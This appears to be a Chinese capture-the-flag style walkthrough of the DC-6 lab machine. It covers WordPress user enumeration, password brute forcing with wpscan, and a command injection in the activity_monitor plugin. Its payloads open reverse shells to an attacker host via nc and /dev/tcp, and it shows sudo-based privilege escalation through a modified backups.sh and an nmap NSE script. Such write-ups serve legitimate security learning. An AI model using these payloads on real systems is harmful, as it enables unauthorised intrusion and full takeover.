dc-6
安装作者的说明，下载hosts文件中配置一下
#DC-6
192.168.101.133 wordy

信息搜集
访问，是用wordpress写的，先拿wpscan扫一下
不出所料，wpscan什么也没扫到
这边同时用dirsearch扫目录
找到这个，
http://wordy/wp-includes/
http://wordy/wp-admin/install.php
http://wordy/wp-admin/maint/repair.php
找了一圈，无果，同样是看作者提示
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
去kali里找到了rockyou.txt.gz这个文件，解压
gzip -d rockyou.txt.gz
然后得到了一个passwords.txt密码文件
爆破用户后台
看到那条提示，应该是要爆破用户账号
bp找了一个1w的字典爆破了一下，

graham
admin
sarah
mark
再去wpscan里爆破密码
wpscan –url http://wordy -U 1 -P /root/桌面/passwords.txt
等一会
出来一个

mark
helpdesk01
进去可以看到少爆破了一个用户

jens
getshell
利用它的插件activity_monitor来getshell

看了一下文档，用的是个命令执行
http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools

在这个页面选lookup，抓包
payload改为 g.cn | nc 192.168.101.130 1234 -e /bin/bash

接收到shell

权限提升
翻来找去，在mark的用户目录下找到了一个文件

当时扫端口时，是有22端口的，

登录graham用户
sudo -l

顺势找到了这个文件 backups.sh,原本是用作备份网页的，
用 vi backups.sh 修改文件内容为 /bin/bash ，因为jens不用密码
然后 sudo -u jens ./backups.sh
就来到了jens的shell下
find / -perm -u=s -type f 2>/dev/null
没找到东西

nmap 提权
sudo -l找到nmap可以用，用nmap提权
先写一个nse文件，root.nse
os.execute(‘/bin/bash’)
然后sudo nmap –script=root.nse

总结
这个靶机几乎全是靠提示过来的,wpscan更新换代太快了,以至于找到的命令都没用了,爆破用户用的bp,爆破用户密码的时候还是自己看help搞明白的.
getshell的过程也挺离谱的,网上查wp后台getshell很容易,但是我却不认识activity_monitor是插件,见得太少了,
反弹shell我用的
bash -i >% /dev/tcp/192.168.101.130/1234 0>%1
没用反应,
用
nc 192.168.101.130 1234 -e /bin/bash
这个就可以,不是很明白为什么
后面的过程就更不用说了,倒是学会了用这两个东西来找可以提权的东西,然后再对症下药
find / -perm -u=s -type f 2>/dev/null
sudo -l